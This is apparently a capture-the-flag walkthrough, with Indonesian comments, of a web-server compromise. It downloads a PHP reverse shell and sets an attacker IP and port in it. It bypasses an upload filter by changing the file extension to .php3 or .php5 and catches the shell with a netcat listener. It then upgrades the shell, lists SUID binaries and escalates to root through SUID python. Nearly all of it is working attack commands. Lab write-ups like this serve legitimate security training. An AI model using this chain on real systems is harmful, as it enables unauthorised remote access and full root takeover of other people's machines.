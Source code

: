 ## exploit
```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php

ip a # check the interface tun0
vi php-reverse-shell.php
: 'ubah bagian ini'
# $ip = '10.21.78.122';  // CHANGE THIS
# $port = 9001;       // CHANGE THIS

: 'upload the file to /panel'
# seharusnya akan gagal

cp php-reverse-shell.php sh.php2; cp php-reverse-shell.php sh.php3; cp php-reverse-shell.php sh.php5
# lalu coba bypass dengan mengubah extensionya sepertti php3, php5, dll dan lakukan upload seharusnya berhasil

: 'listen'
nc -lvnp 9001
```

## post exploit
```bash
: 'upgrade tty'
python -c 'import pty; pty.spawn("/bin/bash")'
# CTRL + Z
stty raw -echo; fg
export TERM=xterm

: 'suid'
find / -type f -user root -perm -4000 2>/dev/null
# /usr/lib/dbus-1.0/dbus-daemon-launch-helper
# /usr/lib/snapd/snap-confine
# /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
# /usr/lib/eject/dmcrypt-get-device
# /usr/lib/openssh/ssh-keysign
# /usr/lib/policykit-1/polkit-agent-helper-1
# /usr/bin/traceroute6.iputils
# /usr/bin/newuidmap
# /usr/bin/newgidmap
# /usr/bin/chsh
# /usr/bin/python
# /usr/bin/chfn
# /usr/bin/gpasswd
# /usr/bin/sudo
# /usr/bin/newgrp
# /usr/bin/passwd
# /usr/bin/pkexec

: 'Jika Menemukan SUID atau Sudoers yang Rentan, langkah selanjutnya adalah mencari eksploitasi yang relevan dengan menggunakan GTFOBins.'
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
